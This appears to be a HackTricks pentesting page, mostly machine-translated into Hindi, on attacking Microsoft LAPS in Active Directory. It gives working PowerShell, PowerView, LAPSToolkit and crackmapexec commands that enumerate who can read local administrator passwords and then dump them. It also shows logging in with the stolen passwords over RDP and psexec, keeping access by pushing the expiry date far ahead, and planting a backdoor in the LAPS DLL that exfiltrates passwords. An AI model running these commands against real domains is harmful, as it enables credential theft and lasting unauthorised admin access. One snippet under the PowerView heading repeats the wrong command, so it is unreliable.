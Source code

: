 # LAPS

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

<figure><img src="https://pentest.eu/RENDER_WebSec_10fps_21sec_9MB_29042024.gif" alt=""><figcaption></figcaption></figure>

{% embed url="https://websec.nl/" %}


## Basic Information

Local Administrator Password Solution (LAPS) एक उपकरण है जिसका उपयोग एक प्रणाली का प्रबंधन करने के लिए किया जाता है जहाँ **व्यवस्थापक पासवर्ड**, जो **विशिष्ट, यादृच्छिक, और अक्सर बदले जाते हैं**, डोमेन से जुड़े कंप्यूटरों पर लागू होते हैं। ये पासवर्ड सक्रिय निर्देशिका में सुरक्षित रूप से संग्रहीत होते हैं और केवल उन उपयोगकर्ताओं के लिए उपलब्ध होते हैं जिन्हें एक्सेस कंट्रोल सूचियों (ACLs) के माध्यम से अनुमति दी गई है। क्लाइंट से सर्वर तक पासवर्ड ट्रांसमिशन की सुरक्षा **Kerberos संस्करण 5** और **Advanced Encryption Standard (AES)** के उपयोग द्वारा सुनिश्चित की जाती है।

डोमेन के कंप्यूटर ऑब्जेक्ट्स में, LAPS का कार्यान्वयन दो नए गुणों की वृद्धि का परिणाम होता है: **`ms-mcs-AdmPwd`** और **`ms-mcs-AdmPwdExpirationTime`**। ये गुण **सादा-टेक्स्ट व्यवस्थापक पासवर्ड** और **इसके समाप्ति समय** को क्रमशः संग्रहीत करते हैं।

### Check if activated
```bash
reg query "HKLM\Software\Policies\Microsoft Services\AdmPwd" /v AdmPwdEnabled

dir "C:\Program Files\LAPS\CSE"
# Check if that folder exists and contains AdmPwd.dll

# Find GPOs that have "LAPS" or some other descriptive term in the name
Get-DomainGPO | ? { $_.DisplayName -like "*laps*" } | select DisplayName, Name, GPCFileSysPath | fl

# Search computer objects where the ms-Mcs-AdmPwdExpirationTime property is not null (any Domain User can read this property)
Get-DomainObject -SearchBase "LDAP://DC=sub,DC=domain,DC=local" | ? { $_."ms-mcs-admpwdexpirationtime" -ne $null } | select DnsHostname
```
### LAPS पासवर्ड एक्सेस

आप **कच्ची LAPS नीति** को `\\dc\SysVol\domain\Policies\{4A8A4E8E-929F-401A-95BD-A7D40E0976C8}\Machine\Registry.pol` से **डाउनलोड** कर सकते हैं और फिर **`Parse-PolFile`** का उपयोग [**GPRegistryPolicyParser**](https://github.com/PowerShell/GPRegistryPolicyParser) पैकेज से इस फ़ाइल को मानव-पठनीय प्रारूप में परिवर्तित करने के लिए किया जा सकता है।

इसके अलावा, **स्थानीय LAPS PowerShell cmdlets** का उपयोग किया जा सकता है यदि वे किसी मशीन पर स्थापित हैं जिस पर हमें पहुंच है:
```powershell
Get-Command *AdmPwd*

CommandType     Name                                               Version    Source
-----------     ----                                               -------    ------
Cmdlet          Find-AdmPwdExtendedRights                          5.0.0.0    AdmPwd.PS
Cmdlet          Get-AdmPwdPassword                                 5.0.0.0    AdmPwd.PS
Cmdlet          Reset-AdmPwdPassword                               5.0.0.0    AdmPwd.PS
Cmdlet          Set-AdmPwdAuditing                                 5.0.0.0    AdmPwd.PS
Cmdlet          Set-AdmPwdComputerSelfPermission                   5.0.0.0    AdmPwd.PS
Cmdlet          Set-AdmPwdReadPasswordPermission                   5.0.0.0    AdmPwd.PS
Cmdlet          Set-AdmPwdResetPasswordPermission                  5.0.0.0    AdmPwd.PS
Cmdlet          Update-AdmPwdADSchema                              5.0.0.0    AdmPwd.PS

# List who can read LAPS password of the given OU
Find-AdmPwdExtendedRights -Identity Workstations | fl

# Read the password
Get-AdmPwdPassword -ComputerName wkstn-2 | fl
```
**PowerView** का उपयोग यह पता लगाने के लिए भी किया जा सकता है कि **कौन पासवर्ड पढ़ सकता है और इसे पढ़ सकता है**:
```powershell
# Find the principals that have ReadPropery on ms-Mcs-AdmPwd
Get-AdmPwdPassword -ComputerName wkstn-2 | fl

# Read the password
Get-DomainObject -Identity wkstn-2 -Properties ms-Mcs-AdmPwd
```
### LAPSToolkit

The [LAPSToolkit](https://github.com/leoloobeek/LAPSToolkit) LAPS की गणना को कई कार्यों के साथ सरल बनाता है।\
एक है **`ExtendedRights`** को **LAPS सक्षम सभी कंप्यूटरों** के लिए पार्स करना। यह **समूहों** को दिखाएगा जो विशेष रूप से LAPS पासवर्ड पढ़ने के लिए **प्रतिनिधि** हैं, जो अक्सर संरक्षित समूहों में उपयोगकर्ता होते हैं।\
एक **खाता** जो **कंप्यूटर** को एक डोमेन में शामिल करता है, उस होस्ट पर `All Extended Rights` प्राप्त करता है, और यह अधिकार **खाते** को **पासवर्ड पढ़ने** की क्षमता देता है। गणना एक उपयोगकर्ता खाते को दिखा सकती है जो एक होस्ट पर LAPS पासवर्ड पढ़ सकता है। यह हमें **विशिष्ट AD उपयोगकर्ताओं** को लक्षित करने में मदद कर सकता है जो LAPS पासवर्ड पढ़ सकते हैं।
```powershell
# Get groups that can read passwords
Find-LAPSDelegatedGroups

OrgUnit                                           Delegated Groups
-------                                           ----------------
OU=Servers,DC=DOMAIN_NAME,DC=LOCAL                DOMAIN_NAME\Domain Admins
OU=Workstations,DC=DOMAIN_NAME,DC=LOCAL           DOMAIN_NAME\LAPS Admin

# Checks the rights on each computer with LAPS enabled for any groups
# with read access and users with "All Extended Rights"
Find-AdmPwdExtendedRights
ComputerName                Identity                    Reason
------------                --------                    ------
MSQL01.DOMAIN_NAME.LOCAL    DOMAIN_NAME\Domain Admins   Delegated
MSQL01.DOMAIN_NAME.LOCAL    DOMAIN_NAME\LAPS Admins     Delegated

# Get computers with LAPS enabled, expirations time and the password (if you have access)
Get-LAPSComputers
ComputerName                Password       Expiration
------------                --------       ----------
DC01.DOMAIN_NAME.LOCAL      j&gR+A(s976Rf% 12/10/2022 13:24:41
```
## **Dumping LAPS Passwords With Crackmapexec**
यदि पावरशेल तक पहुँच नहीं है, तो आप LDAP के माध्यम से इस विशेषाधिकार का दूरस्थ रूप से दुरुपयोग कर सकते हैं।
```
crackmapexec ldap 10.10.10.10 -u user -p password --kdcHost 10.10.10.10 -M laps
```
यह सभी पासवर्ड को डंप करेगा जिन्हें उपयोगकर्ता पढ़ सकता है, जिससे आपको एक अलग उपयोगकर्ता के साथ बेहतर स्थिति प्राप्त करने की अनुमति मिलेगी।

## ** LAPS पासवर्ड का उपयोग करना **
```
xfreerdp /v:192.168.1.1:3389  /u:Administrator
Password: 2Z@Ae)7!{9#Cq

python psexec.py Administrator@web.example.com
Password: 2Z@Ae)7!{9#Cq
```
## **LAPS स्थायीकरण**

### **समाप्ति तिथि**

एक बार जब आप व्यवस्थापक बन जाते हैं, तो **पासवर्ड प्राप्त करना** और एक मशीन को इसके **पासवर्ड को अपडेट करने से रोकना** संभव है **समाप्ति तिथि को भविष्य में सेट करके**।
```powershell
# Get expiration time
Get-DomainObject -Identity computer-21 -Properties ms-mcs-admpwdexpirationtime

# Change expiration time
## It's needed SYSTEM on the computer
Set-DomainObject -Identity wkstn-2 -Set @{"ms-mcs-admpwdexpirationtime"="232609935231523081"}
```
{% hint style="warning" %}
यदि कोई **admin** **`Reset-AdmPwdPassword`** cmdlet का उपयोग करता है; या यदि LAPS GPO में **Do not allow password expiration time longer than required by policy** सक्षम है, तो पासवर्ड अभी भी रीसेट हो जाएगा।
{% endhint %}

### बैकडोर

LAPS का मूल स्रोत कोड [यहां](https://github.com/GreyCorbel/admpwd) पाया जा सकता है, इसलिए कोड में एक बैकडोर डालना संभव है (उदाहरण के लिए `Main/AdmPwd.PS/Main.cs` में `Get-AdmPwdPassword` विधि के अंदर) जो किसी न किसी तरह **नए पासवर्ड को एक्सफिल्ट्रेट या कहीं स्टोर** करेगा।

फिर, बस नए `AdmPwd.PS.dll` को संकलित करें और इसे मशीन में `C:\Tools\admpwd\Main\AdmPwd.PS\bin\Debug\AdmPwd.PS.dll` पर अपलोड करें (और संशोधन समय बदलें)।

## संदर्भ
* [https://4sysops.com/archives/introduction-to-microsoft-laps-local-administrator-password-solution/](https://4sysops.com/archives/introduction-to-microsoft-laps-local-administrator-password-solution/)

<figure><img src="https://pentest.eu/RENDER_WebSec_10fps_21sec_9MB_29042024.gif" alt=""><figcaption></figcaption></figure>

{% embed url="https://websec.nl/" %}

{% hint style="success" %}
AWS हैकिंग सीखें और अभ्यास करें:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
GCP हैकिंग सीखें और अभ्यास करें: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks का समर्थन करें</summary>

* [**सदस्यता योजनाओं**](https://github.com/sponsors/carlospolop) की जांच करें!
* **हमारे** 💬 [**Discord समूह**](https://discord.gg/hRep4RUj7f) या [**telegram समूह**](https://t.me/peass) में शामिल हों या **Twitter** 🐦 पर हमें **फॉलो** करें [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **हैकिंग ट्रिक्स साझा करें और** [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) गिटहब रिपोजिटरी में PR सबमिट करें।

</details>
{% endhint %}
